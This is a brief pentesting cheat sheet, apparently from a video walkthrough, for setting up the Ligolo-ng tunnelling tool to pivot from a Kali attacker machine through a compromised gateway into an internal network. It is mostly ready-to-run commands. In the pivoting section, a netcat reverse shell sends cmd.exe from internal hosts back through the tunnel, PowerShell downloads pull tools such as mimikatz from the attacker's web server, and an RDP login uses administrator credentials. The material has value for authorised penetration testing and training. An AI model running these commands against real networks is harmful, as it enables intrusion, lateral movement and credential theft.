 # Ligolo-ng setup

Source: https://looptube.io/?videoId=DM1B8S80EvQ  

## Prerequisite

### Framework

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | servers, workstations | 
| IpAttacker > | < eth0: IpDmzOut - eth1: IpDmzIn > | < IpInternalNetwork (DC, WS1, WS2) |

### Binary releases

Two downloads:
- an agent: on the gateway
- a proxy: on Kali

## Setup

### Config on Kali

```
sudo ip tuntap add user kaliuser mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### Config on the gateway

```
cmd> agent.exe -connect $IpKali:$PortKali -ignore-cert
```

### Tunneling on Ligolo-ng

```
>> help
>> session
>>>> ifconfig
```

In a shell:
```
sudo ip route add $IpInternal/24 dev ligolo
ip route list # check
```

Back in Ligolo:
```
>>>> start
```

Check with NetExec:
```
NetExec smb $IpInternal/24
```

### Pivoting in Ligolo-ng

In Ligolo
```
>>>> listener_list
>>>> listener_add --addr 0.0.0.0:$Port1 --to 127.0.0.1:$Port2
>>>> listener_add --addr 0.0.0.0:$Port3 --to 127.0.0.1:$Port4
>>>> listener_list
```

On a WS or the DC:
```
PS> nc.exe $InternalGatewayIpOnEth1 $Port1 -e cmd.exe
PS> iwr -uri http://$InternalGatewayIpOnEth1:$Port3/somepentestingtool.exe -outfile tool.exe
```

Examples:
- `0.0.0.0:8081` -> `127.0.0.1:8081` then `iwr -uri http://$InternalIpForAgent01:8181/mimikatz.exe -outfile mimi.exe`
- `0.0.0.0:3389` -> `$IpForTarget02:3389` then `xfreerdp /u:Administrator /p:adminpass /v:$ExternalIpForAgent01`

On Kali:
```
nc -lnpu $Port2
python3 -m http.server $Port4
```



